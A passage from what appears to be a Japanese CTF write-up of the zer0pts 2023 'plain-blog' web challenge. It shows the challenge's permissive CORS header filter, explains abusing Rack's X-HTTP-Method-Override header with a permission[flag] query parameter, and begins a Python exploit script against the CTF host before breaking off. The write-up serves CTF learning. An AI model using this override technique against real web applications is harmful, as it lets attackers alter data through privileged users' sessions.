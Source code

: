 #### Step 3: X-HTTP-Method-Override

途方に暮れてソースコードを眺めていると、preflight requestの処理で`X-`から始まるリクエストヘッダを特別扱いしていることに気づきました。他の箇所でこれが利用されていないため、あやしいです。
```ruby
        requested_headers = (request.env['HTTP_ACCESS_CONTROL_REQUEST_HEADERS'] || '').gsub(/\s/, '').split(',')
        # enumerate requested headers for Access-Control-Allow-Headers
        requested_headers.filter! do |h|
            h.downcase() == 'authorization' || \
            h.downcase().start_with?('x-') # if it starts with X-, then it's safe, I think
        end
end
```

Webフレームワークには`X-...`形式のリクエストヘッダに対する特殊な挙動を行うものがしばしば存在します。

- 例: Ginの`X-Forwarded-Prefix`

Sinatra（依存しているRack含む）にも似たようなものがないか探してみました。

- https://github.com/rack/rack/blob/v3.0.8/lib/rack/method_override.rb#L12

```ruby
HTTP_METHOD_OVERRIDE_HEADER = "HTTP_X_HTTP_METHOD_OVERRIDE"
```

なんかありました。どうやらこれは、実際のメソッドを別のメソッドに上書きするリクエストヘッダのようです。実際に試すと、この問題に対して有効なことがわかりました。

よって、
```
X-HTTP-Method-Override: PUT
```
のリクエストヘッダでadminを`PUT /api/post/:id`にアクセスさせることが可能です。

```
?title=x&content=x&permission[flag]=1
```
のクエリパラメータを付与させることで`permission[flag]`も変更可能です。あとはフラグ一直線。

### 攻撃

```python
import httpx
import urllib.parse

# FRONTEND_BASE_URL = "http://localhost:8401"
# API_BASE_URL = "http://localhost:8400"

FRONTEND_BASE_URL = "http://plain-blog.2023.zer0pts.com:8401"
API_BASE_URL = "http://plain-blog.2023.zer0pts.com:8400"


def create_note(title: str, content: str) -> str:
    res = httpx.post(
        f"{API_BASE_URL}/api/post",
        data={
            "title": title,
            "content": content,
        }
    )
    return res.json()["post"]["id"]


def update_note(id: str, data):
    res = httpx.put(
        f"{API_BASE_URL}/api/post/{id}",
        data=data,
    )
```

[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。